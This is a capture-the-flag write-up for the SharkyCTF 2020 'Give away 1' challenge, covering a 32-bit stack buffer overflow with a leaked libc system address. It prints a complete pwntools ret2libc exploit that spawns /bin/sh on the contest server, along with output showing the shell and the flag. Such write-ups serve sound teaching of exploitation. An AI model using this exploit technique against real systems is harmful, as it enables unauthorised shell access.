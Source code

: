 # SharkyCTF 2020

## Give away 1

>275
>
> Make good use of this gracious give away.
>
> `nc sharkyctf.xyz 20334`
>
> Creator: Hackhim
>
> [`give_away_1`](give_away_1) [`libc-2.27.so`](libc-2.27.so)

Tags: _pwn_ _bof_ _x86_


## Summary

Overflow buffer; libc `system` address leak.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary; buffer overflow vulnerability.

    
### Decompile with Ghidra

Ghidra decompile will not help you here, you'll have to look at the assembly:

![](main.png)

`give_away_1` `main` gives up the address to `system`.  Then calls `vuln`:

![](vuln.png)

`local_24` is `0x24` bytes above the return address, yet `0x32` bytes can be read.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./give_away_1')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = remote('sharkyctf.xyz', 20334)
libc = ELF('libc-2.27.so')

p.recvuntil('Give away: ')
system = eval(p.recvline().strip())
print(hex(system))
libcbase = system - libc.symbols['system']
print('libcbase: ' + hex(libcbase))

payload  = 0x24 * b'A'
payload += p32(system)
payload += p32(0x0)
payload += p32(libcbase + next(libc.search(b"/bin/sh")))

p.sendline(payload)
p.interactive()
```

Computing the base of libc is trivial using the leaked `system` address and the provided libc .

Next, find a `/bin/sh` string to pass to `system` to finish off the payload.

Output:

```
# ./exploit.py
[+] Opening connection to sharkyctf.xyz on port 20334: Done
[*] '/pwd/datajerk/sharkyctf2020/giveaway1/libc-2.27.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0xf7db6200
libcbase: 0xf7d79000
[*] Switching to interactive mode
$ cat flag.txt
shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}
```